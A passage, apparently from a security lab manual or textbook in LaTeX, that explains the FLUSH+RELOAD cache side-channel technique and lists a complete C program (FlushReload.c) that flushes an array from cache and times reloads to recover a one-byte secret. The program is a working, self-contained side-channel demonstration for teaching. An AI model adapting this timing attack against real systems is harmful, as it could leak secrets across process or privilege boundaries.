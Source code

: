 The following program uses the FLUSH+RELOAD technique to 
find out a one-byte secret value contained in the variable \texttt{secret}. 
Since there are 256 possible values for a one-byte secret, we 
need to map each value to an array element. The naive way is to define an
array of 256 elements (i.e., \texttt{array[256]}).  However, this does not
work. Caching is done at a block level, not at a byte level. If
\texttt{array[k]} is accessed, a block of memory containing this element  
will be cached. Therefore, the adjacent elements of \texttt{array[k]} 
will also be cached, making it difficult to infer what the secret is. 
To solve this problem, we create an array of \texttt{256*4096} 
bytes. Each element used in our RELOAD step is \texttt{array[k*4096]}. 
Because \texttt{4096} is larger than a typical cache block size (64 bytes), 
no two different elements \texttt{array[i*4096]} and \texttt{array[j*4096]} will
be in the same cache block.

Since \texttt{array[0*4096]} may fall into the same cache block as the variables 
in the adjacent memory, it may be accidentally cached due to the caching 
of those variables. Therefore, we should avoid using \texttt{array[0*4096]} in
the FLUSH+RELOAD method (for other index \texttt{k}, \texttt{array[k*4096]} does not
have a problem).
To make it consistent in the program, we use 
\texttt{array[k*4096 + DELTA]} for all \texttt{k} values, 
where \texttt{DELTA} is defined as a constant \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}
 

